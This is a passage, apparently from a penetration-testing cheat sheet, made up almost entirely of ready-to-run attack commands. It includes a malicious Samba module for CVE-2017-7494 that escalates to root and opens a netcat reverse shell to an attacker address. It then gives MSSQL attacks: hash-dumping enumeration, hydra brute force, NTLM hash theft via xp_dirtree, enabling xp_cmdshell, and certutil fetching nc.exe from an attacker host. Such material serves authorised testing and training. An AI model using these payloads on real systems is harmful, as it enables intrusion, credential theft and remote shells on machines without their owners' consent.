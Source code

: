 If you reiceve 3 pings on your listener then the exploit works. Now let’s get a shell :

```
#include <stdio.h>
#include <stdlib.h>

int samba_init_module(void)
{
	setresuid(0,0,0);
	system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <PORT> >/tmp/f");
}
```

```
# Build
gcc -o test.so -shared poc.c -fPIC
```

```
# Start a listener
nc -lvp <PORT>

# Exploit
./cve_2017_7494.py -t <TARGET_IP> -u <USER> -P <PASSWORD> --custom=test.so
```

---

## MSSQL - 1433

### Get information

```
nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 <IP>
```

### Brute force

```
hydra -L <USERS_LIST> -P <PASSWORDS_LIST> <IP> mssql -vV -I -u
```

### Having credentials

```
mssqlclient.py -windows-auth <DOMAIN>/<USER>:<PASSWORD>@<IP>
mssqlclient.py <USER>:<PASSWORD>@<IP>

# Once logged in you can run queries:
SQL> select @@ version;

# Steal NTLM hash
sudo smbserver.py -smb2support liodeus .
SQL> exec master..xp_dirtree '\\<IP>\liodeus\' # Steal the NTLM hash, crack it with john or hashcat

# Try to enable code execution
SQL> enable_xp_cmdshell

# Execute code
SQL> xp_cmdshell whoami /all
SQL> xp_cmdshell certutil.exe -urlcache -split -f http://<IP>/nc.exe
```
